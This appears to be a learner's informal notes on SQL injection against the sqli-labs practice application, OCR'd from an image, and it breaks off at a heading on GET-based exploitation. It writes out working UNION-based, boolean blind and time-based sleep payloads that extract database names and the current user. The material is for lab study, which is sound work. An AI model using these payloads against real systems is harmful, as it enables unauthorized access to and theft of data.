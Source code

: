 version()

user()

executed - http://192.168.1.103/sqli-labs-master/Less-1/?id=-1' union all select 1,database(),3 --+

http://192.168.1.103/sqli-labs-master/Less-1/?id=-1' union all select 1,database(),user() --+

--------------------------------------------

situtation you are getting error but you are not getting output of union sqli staement in that case there may error based sqli or may be double query based sqli 


http://192.168.1.103/sqli-labs-master/Less-5/?id=-1'       --+


error/double based sqli query -> hackbar->error/double->get database 

-----------------------------------------
Blind SQLI 

blind boolien based sqli 

and 1=1 {true }

and 1=2 {false }

and "a"="b"

and database()="xyz"

we can not assume the database 

and substring(database(),1,1)="a"

http://192.168.1.103/sqli-labs-master/Less-8/?id=1'    and substring(database(),1,1)="s"  --+ {true vale that menas first charcater of first databse is s}


http://192.168.1.103/sqli-labs-master/Less-8/?id=1'    and substring(database(),2,1)="e"  --+ {true second character of first database is e}

blind time based sqli 

' and sleep(10) --+
" and sleep(10) --+

') and sleep(10) --+

how to extract database for blind time based sqli 

' and sleep(10) and 1=1 --+

i gave http://192.168.1.103/sqli-labs-master/Less-9/?id=1'   and sleep(10) and database()="security" --+ its sleeping thats means 

http://192.168.1.103/sqli-labs-master/Less-9/?id=1'   and sleep(10) and database()="xyz" --+ {its not sleeping for 10 sec }
-----------------------------------------

Exploitation of GET Based sqli 

1. Database List - 
